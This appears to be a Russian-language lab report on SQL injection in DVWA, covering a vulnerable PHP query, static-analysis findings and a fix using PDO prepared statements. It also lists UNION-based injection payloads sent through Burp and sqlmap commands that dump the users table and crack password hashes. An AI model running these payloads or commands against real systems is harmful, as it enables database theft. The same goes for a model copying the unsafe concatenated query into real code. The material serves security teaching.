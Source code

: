 # Использование статического анализатора кода для обеспечения безопасности
##  Участок кода, содержащий инъекцию SQL
Вредоносное значение может быть присвоено переменной `$id`. И затем с помощью этой переменной формируется SQL запрос:
```php
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $getid );
```
![image](https://user-images.githubusercontent.com/53438664/200193216-cf8858cf-97be-4a39-99bf-c77685f1ead9.png)
**Источники:**
- [OWASP Top 10 2021 Category A3](https://owasp.org/Top10/A03_2021-Injection/ "OWASP Top 10 2021 Category A3") - Injection
- [MITRE, CWE-20](https://cwe.mitre.org/data/definitions/20 "MITRE, CWE-20") - Improper Input Validation
- [MITRE, CWE-89](https://cwe.mitre.org/data/definitions/89 "MITRE, CWE-89") - Improper Neutralization of Special Elements used in an SQL Command

## Кодревью
Сервис статического анализа кода указал следующие проблемы в исследуемом коде:
![image](https://user-images.githubusercontent.com/53438664/200193274-b31845db-07d5-4057-9a2d-93889bdcf6ba.png)

### Не следует использовать символы табуляции
Разработчикам не нужно настраивать ширину вкладок своих текстовых редакторов, чтобы иметь возможность читать исходный код.
### Файлы должны содержать пустую новую строку в конце
Некоторые инструменты работают лучше, когда файлы заканчиваются пустой строкой.
### Исходный код должен соответствовать стандартам форматирования
Общие соглашения о кодировании позволяют команде эффективно сотрудничать. Это правило вызывает проблемы из-за несоблюдения стандарта форматирования. Значения параметров по умолчанию соответствуют стандарту PSR2.


## Исправление кода
### Предотвращение SQL инъекции
Применена технология **PDO**.
> **PDO** (PHP Data Objects — расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных).

Принцип работы **PDO** заключается в том, что он отдельно отправляет инструкцию и отдельно данные, строго указывая, что данные это только данные. Другими словами, при привязке параметра через **PDO**, вы сообщаете БД, какие значения использовать при выполнении запроса. Затем **PDO** передаст значение уже скомпилированной инструкции.

Разница между параметрами привязки и простой старой строковой инъекцией заключается в том, что в первом случае значение не интерполируется, а скорее присваивается. Во время выполнения СУБД находит заполнитель и запрашивает значение для использования. Таким образом, нет никаких шансов, что кавычки или другие гадости проберутся в фактическое утверждение.
```php
$db = new PDO('mysql:host=localhost;dbname=dvwa', $user, $password);
```

В нашем запросе передаётся переменная `$id`, поэтому этот запрос в обязательном порядке должен выполняться только через подготовленные выражения.
> Подготовленные выражения в PDO - это обычный SQL запрос, в котором вместо переменной ставится специальный маркер - плейсхолдер.

PDO поддерживает именованные плейсхолдеры, для которых порядок не важен.
В данном случае используем именнованный плейсхолдер `:id`:
```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
```
Добавлена проверка вводимого значения `$id` с помощью функции `is_numeric()`, для установления соответсивия типа числовому значению.
### Стандартизация кода
Убраны "запахи кода" в соответсвии со стандартом PSR2. PSR-2 – Рекомендации по оформлению кода.
> Цель данных рекомендаций – снижение сложности восприятия кода, написанного разными авторами; она достигается путём рассмотрения серии правил и ожиданий относительно форматирования PHP-кода.

### Результаты
![Результаты проверки кода после исправления](https://user-images.githubusercontent.com/53438664/200193379-ddd3e374-3239-47e5-b33f-181d0f8718c7.png "Результаты проверки кода после исправления")

## Burp
Настроив Burp и включив прокси в браузере при помощи предустановленных расширений мы можем начать перехватывать запросы из браузера.
В Burp Suite, можно увидеть перехваченные данные:
![image](https://user-images.githubusercontent.com/53438664/205754746-6ffa6a21-fe36-42ad-9f77-51b04c0fb191.png)

Заменим `id=1` на `id=1 OR 1=1#` (с использованием URL-encode), в ответ получим всех пользователей:

![image](https://user-images.githubusercontent.com/53438664/205754589-c2213481-1d0f-4fd0-b60f-fbb32fe6871c.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT NULL,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
```
В ответ получим названия таблиц:

![image](https://user-images.githubusercontent.com/53438664/205755365-b612727e-18a2-404b-9bdb-3f3997e1a662.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT USER,PASSWORD FROM users#
```
В ответ получим пароли пользователей:

![image](https://user-images.githubusercontent.com/53438664/205756383-f86ea29b-c263-4c10-8d33-91e69c1a3bc1.png)

## SQLMap
Воспользуемся утилитой для поиска уязвимых параметров запроса.
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id
```
![image](https://user-images.githubusercontent.com/53438664/205756897-01a9c86b-0c00-46b6-959b-33074863517b.png)

В результате поиска выявлена уязвимость типа _boolean-based blind_ и _time-based blind_ у параметра `id`. 
- **Boolean based Blind SQL Injection** - это техника инъекции, которая заставляет приложение возвращать различное содержимое в зависимости от логического результата (TRUE или FALSE) при запросе к реляционной базе данных.
- **Time based Blind SQL Injection** - SQL-запросы, которые вынуждают базу данных ждать определенное время, прежде чем ответить. Время ответа укажет злоумышленнику, является ли результат запроса истинным или ложным.

Получим список имеющихся баз данных с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id --dbs
```
![image](https://user-images.githubusercontent.com/53438664/205757631-3e26ad8c-e149-4094-a783-f957e27f251d.png)

Получим список имеющихся таблиц базы данных `dvwa` с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa --tables
```
![image](https://user-images.githubusercontent.com/53438664/205757911-51b68d62-c36c-40f0-b10d-d2ff7960e129.png)

Затем получим строки из таблицы `users`:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa -T users --dump
```
![image](https://user-images.githubusercontent.com/53438664/205758686-0ad29754-b1c9-4565-b79d-0731ea3bddbf.png)

В итоге утилита SQLmap осуществила перебор паролей по имеющимся в таблице хэшам, в результате чего вывела и пароли пользователей.
